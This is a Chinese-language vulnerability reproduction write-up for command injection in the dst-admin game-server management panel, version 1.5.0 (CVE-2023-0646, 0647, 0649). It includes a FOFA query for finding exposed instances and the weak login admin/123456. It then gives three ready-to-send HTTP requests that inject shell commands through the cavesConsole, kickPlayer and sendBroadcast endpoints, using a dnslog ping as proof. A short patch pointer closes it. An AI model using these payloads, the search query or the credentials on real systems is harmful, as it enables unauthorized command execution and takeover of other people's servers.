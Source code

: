 
# dst-admin饥荒管理后台 RCE漏洞复现（CVE-2023-0646、CVE-2023-0647、CVE-2023-0649）

### 0x01 产品简介

  dst-admin饥荒管理后台是qinming99个人开发者的一个用 Java 语言编写的 web 程序。

### 0x02 漏洞概述

  dst-admin饥荒管理后台kickPlayer、cavesConsole、sendBroadcast等接口处配置不当，导致破解口令后的攻击者可以进行[命令注入](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)，获取服务器权限。

### 0x03 影响范围

dst-admin 1.5.0版本

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：title=="饥荒管理后台"

![](assets/1701071165-847417b16930cf5977a6d99e06d6a913.png)

### 0x05 漏洞复现 

弱口令登录

admin/123456

**CVE-2023-0646**

```cobol
POST /home/cavesConsole HTTP/1.1
Host: your-ip
Content-Type: application/json
Cookie: JSESSIONID=65b0f393-708f-4e03-b564-52b1bc0b683a;rememberMe=deleteMe;
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"command":"\"&ping Dnslog;\""}
```

![](assets/1701071165-ab8279041a66f2956465fcb9e5ac041f.png)

 **CVE-2023-0647**

```cobol
GET /home/kickPlayer?userId=%5C%22)%5Cn%22%26ping+Dnglog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=93ab200b-a15d-4ac6-8138-abfa1262b5f5;rememberMe=deleteMe;
```

![](assets/1701071165-6ff8f1d73437da7b30c6100fd5693371.png)

**CVE-2023-0649**

```cobol
GET /home/sendBroadcast?message=%5C%22)%5Cn%22%26ping+dnslog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=94d5d20b-036a-41bf-a77c-334d2be0ed80;rememberMe=deleteMe;
Accept-Encoding: gzip
```

![](assets/1701071165-92fe6060aabf8830797883278fc6e75b.png)

### ![](assets/1701071165-733d6d45d2e5efbbce91daf3f5dee863.png) 0x06 修复建议 

目前厂商已发布升级补丁以修复漏洞，

补丁获取链接：https://github.com/qinming99/dst-admin
